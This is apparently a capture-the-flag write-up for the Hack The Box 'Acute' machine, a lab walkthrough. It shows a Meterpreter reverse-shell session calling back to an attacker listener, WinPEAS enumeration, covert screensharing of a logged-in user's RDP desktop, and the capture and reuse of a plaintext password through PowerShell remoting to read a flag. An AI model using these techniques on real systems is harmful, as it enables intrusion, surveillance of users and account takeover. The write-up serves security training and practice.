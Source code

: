 ### Meterpreter Session
As the reverse shell is executed in the Acute machine we receive the meterpreter session:
```
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.14:9001
[*] Sending stage (200262 bytes) to 10.10.11.145
[*] Meterpreter session 1 opened (10.10.14.14:9001 -> 10.10.11.145:49785 ) at 2022-03-25 09:58:02 +0800

meterpreter > shell
Process 1948 created.
Channel 2 created.
Microsoft Windows [Version 10.0.19044.1466]
(c) Microsoft Corporation. All rights reserved.

C:\Utils>powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Utils>
```

I ran WinPEAS and got this interesting info:
![[acute/images/image5.png]]

This means that `edavies` is using RDP (gui interface) and is ACTIVE!
We can use a meterpreter module to watch his screen:
```
meterpreter > screenshare -q 100
[*] Preparing player...
[*] Opening player at: /home/caue/htb/acute/yiBhXusM.html
[*] Streaming...
```

While stalking `edavies` we see the user opening a PowerShell session and entering some commands:
![[acute/images/image6.png]]

This was his commands:
```PowerShell
$pass = ConvertTo-SecureString "W3_4R3_th3_f0rce." -AsPlaintext -Force  
$cred = New-Object System.Management.Automation.PSCredential ("acute\imonks", $pass)  
Enter-PSSession -computername ATSSERVER -ConfigurationName dc_manage -credential $cred
```

He is using the user `imonks` credentials to start another session.
Now we can run commands as a new user, lets see what we can find.

## Running commands as Imonks
We can read the flag:
```PowerShell
$SecPassword = ConvertTo-SecureString 'W3_4R3_th3_f0rce.' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('acute\imonks', $SecPassword)
Invoke-Command atsserver -ConfigurationName dc_manage -Credential $Cred -scriptblock { cat c:\users\imonks\Desktop\user.txt }
```
